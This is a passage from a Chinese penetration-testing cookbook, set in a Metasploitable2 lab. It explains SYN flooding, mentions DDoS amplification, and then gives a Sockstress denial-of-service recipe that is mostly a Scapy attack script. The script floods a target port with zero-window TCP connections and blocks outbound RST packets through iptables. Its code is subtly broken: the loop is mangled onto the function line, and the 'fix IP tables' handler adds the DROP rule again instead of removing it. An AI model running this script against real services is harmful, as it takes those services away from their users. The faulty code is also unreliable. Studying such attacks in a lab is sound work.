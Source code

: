### 工作原理

TCP 服务只允许建立有限数量的半开连接。 通过快速发送大量的 TCP SYN 请求，这些可用的连接会被耗尽，并且服务器将不再能够接受新的传入连接。 因此，新用户将无法访问该服务。 通过将其用作 DDoS 并且使多个攻击系统同时执行脚本，该攻击的效率可以进一步加强。

## 6.8 Sockstress DoS 攻击

Sockstress DoS 攻击涉及到与目标服务相关的 TCP 端口建立一系列开放连接。 TCP 握手中的最终 ACK 响应的值应为 0。

### 准备

为了使用 Scapy 对目标执行 Sockstress DoS 攻击，你需要有一个运行 TCP 网络服务的远程系统。 提供的示例使用 Metasploitable2 的实例用。 有关设置 Metasploitable2 的更多信息，请参阅本书第一章中的“安装 Metasploitable2”秘籍。 此外，本节需要使用文本编辑器（如 VIM 或 Nano）将脚本写入文件系统。 有关编写脚本的更多信息，请参阅本书第一章中的“使用文本编辑器（VIM 和 Nano）”秘籍。

### 操作步骤

以下脚本使用 Scapy 编写，用于对目标系统执行 Sockstress DoS 攻击。 以下脚本可用于测试漏洞服务：

```py
#!/usr/bin/python
from scapy.all import * 
from time import sleep 
import thread 
import logging 
import os 
import signal 
import sys 
logging.getLogger("scapy.runtime").setLevel(logging.ERROR)

if len(sys.argv) != 4:   
    print "Usage - ./sock_stress.py [Target-IP] [Port Number] [Threads]"   
    print "Example - ./sock_stress.py 10.0.0.5 21 20"   
    print "Example will perform a 20x multi-threaded sock-stress DoS attack "   
    print "against the FTP (port 21) service on 10.0.0.5"  
    print "\n***NOTE***"
    print "Make sure you target a port that responds when a connection is made"   
    sys.exit()

target = str(sys.argv[1]) 
dstport = int(sys.argv[2]) 
threads = int(sys.argv[3])

## This is where the magic happens 
def sockstress(target,dstport):   while 0 == 0:      
    try:         
        x = random.randint(0,65535)         
        response = sr1(IP(dst=target)/TCP(sport=x,dport=dstport,flags ='S'),timeout=1,verbose=0)                        
        send(IP(dst=target)/ TCP(dport=dstport,sport=x,window=0,flags='A',ack=(response[TCP].seq + 1))/'\x00\x00',verbose=0)     
    except:         
        pass
 
## Graceful shutdown allows IP Table Repair 
def graceful_shutdown(signal, frame):   
    print '\nYou pressed Ctrl+C!'  
    print 'Fixing IP Tables'   
    os.system('iptables -A OUTPUT -p tcp --tcp-flags RST RST -d ' + target + ' -j DROP')   
    sys.exit()

## Creates IPTables Rule to Prevent Outbound RST Packet to Allow Scapy TCP Connections 
os.system('iptables -A OUTPUT -p tcp --tcp-flags RST RST -d ' + target + ' -j DROP') 
signal.signal(signal.SIGINT, graceful_shutdown)
```